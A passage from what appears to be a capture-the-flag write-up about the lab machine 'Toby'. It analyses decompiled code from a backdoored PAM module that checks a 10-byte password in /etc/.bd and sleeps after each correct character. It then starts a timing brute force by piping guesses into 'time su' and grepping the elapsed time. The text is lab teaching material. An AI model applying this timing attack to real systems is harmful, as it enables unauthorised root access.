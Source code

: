 
It is poor coding that it’s opening the file and re-reading the contents on
each loop, rather than once outside the loop. On line 63 is compares byte `i`
for `input_pass` and `file_pass`, and basically exits if they don’t match by
passing to the default behavior:

    
    
            if (input_pass[i] != *(char *)((long)file_pass + i)) {
    LAB_001049d0:
              res = _unix_verify_password(pamh,name,p,ctrl);
              *piVar2 = res;
              goto LAB_00104990;
            }
    

At the very end of the loop on line 87, there’s a `usleep(100000)`, which will
sleep for 0.1 second. It’s worth noting that it only reaches this point if the
character was correct.

The while loop runs while `i != 10`, so that implies a hardcoded length of the
password.

`/etc/.bd` is on Toby, and only readable by root:

    
    
    jack@toby:/etc$ ls -l .bd
    -r-------- 1 root root 10 Jul 14 13:39 .bd
    

It also has 10 bytes.

### Brute Force

#### POC

The theory here is that it will take 0.1 seconds longer for each character
that’s right starting at the start of the password. I can test this will a
quick Bash loop. First, to test, I’ll `echo` the password and pipe that into
`time su`:

    
    
    jack@toby:/etc$ echo "a---------" | time su 
    Password: su: Authentication failure
    Command exited with non-zero status 1
    0.01user 0.00system 0:01.01elapsed 1%CPU (0avgtext+0avgdata 3736maxresident)k
    0inputs+8outputs (0major+278minor)pagefaults 0swaps
    

On the second to last line there’s a `0:01.01elapsed`. That’s the time I’m
looking for. That output goes to `stderr` so I’ll redirect it to `stdout`
(`2>&1`) and then `grep`:

    
    
    jack@toby:/etc$ echo "a---------" | time su 2>&1 | grep elapsed
    0.01user 0.00system 0:01.01elapsed 1%CPU (0avgtext+0avgdata 3768maxresident)k
    

I can use a simple regex to match on the time as well and then `-o` to make it
a bit prettier:
